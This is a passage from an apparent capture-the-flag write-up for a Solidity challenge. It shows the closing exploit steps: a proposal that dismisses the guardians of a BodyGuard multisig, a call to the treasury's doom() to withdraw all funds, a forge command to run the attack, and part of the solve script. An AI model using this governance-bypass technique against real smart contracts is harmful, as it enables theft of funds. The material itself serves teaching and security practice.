 5. Send the `proposal`. Optionally check if the `guardians` are actually getting dismissed.
```solidity
  ...
  bodyguard.propose(proposal, signatures);

  // Optional check
  require(treasury.bodyGuard() == address(0), "bodyguard not dismissed");
  ...
```
<br />

6. Once the `guardians` are dismissed, call the `doom()` function of the `treasury` to withdraw all of the funds!
```solidity
  ...
  treasury.doom();
  vm.stopBroadcast();
```
<br />

#### Full script 📜

> `[+]` Have a look at the full script:&ensp;[`Solve.s.sol`](./Solve.s.sol) <br />
> `[*]` Execute the script with this command:
> ```bash
> forge script -f '{CTF_RPC_URL}' --broadcast ./script/Solve.s.sol
> ```
<br />

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Script, console2} from "forge-std/Script.sol";

import "src/CyberCartel.sol";
import "src/Challenge.sol";

contract Solve is Script {
    function run() public {
        Challenge challenge = Challenge(
            address(vm.envAddress("CHALLENGE_ADDRESS"))
        );
        uint256 PLAYER_PRIVATE_KEY = vm.envUint("PLAYER_PRIVATE_KEY");
        address player = address(vm.addr(PLAYER_PRIVATE_KEY));

        CartelTreasury treasury = CartelTreasury(payable(challenge.TREASURY()));
        BodyGuard bodyguard = BodyGuard(treasury.bodyGuard());

        vm.startBroadcast(PLAYER_PRIVATE_KEY);

        // Initialize the proposal to dismiss the guardians.
        BodyGuard.Proposal memory proposal = BodyGuard.Proposal({
            expiredAt: uint32(block.timestamp + 1000),
            gas: 1000000,
            nonce: 1,
            data: abi.encodeWithSelector(
                CartelTreasury.gistCartelDismiss.selector
            )
        });
        bytes32 hash = bodyguard.hashProposal(proposal);

        // Legitimately sign the proposal as the player, since we are one of the guardians.
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(PLAYER_PRIVATE_KEY, hash);

        bytes[] memory signatures = new bytes[](2);
```
